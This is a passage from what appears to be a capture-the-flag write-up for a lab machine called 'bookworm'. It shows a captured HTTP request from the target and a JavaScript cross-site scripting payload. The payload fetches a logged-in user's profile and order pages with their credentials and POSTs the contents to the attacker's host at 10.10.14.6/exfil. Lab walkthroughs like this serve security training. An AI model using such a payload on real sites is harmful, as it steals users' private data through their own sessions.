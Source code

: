     Connection received on 10.10.11.215 44730
    GET /order/18 HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate



I'll update this to return the order pages:



    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var regex = /\/order\/\d+/g;
      while ((match = regex.exec(resptext)) !== null) {
        fetch(match, {credentials: "include"})
        .then((resp2) => resp2.text())
        .then((resptext2) => {
          fetch("http://10.10.14.6/exfil" + match, {
            method: "POST",
            mode: "no-cors",
            body: resptext2
          });
        });
      };
    });



This should get each order page in the profile, fetch it, and return it
to me via POST request.

After a few minutes (and a few attempts running the script), I get a
connection, which gives a few pages. For example, one might look like
the following page:

![](/img/image-20240116134135135.png)
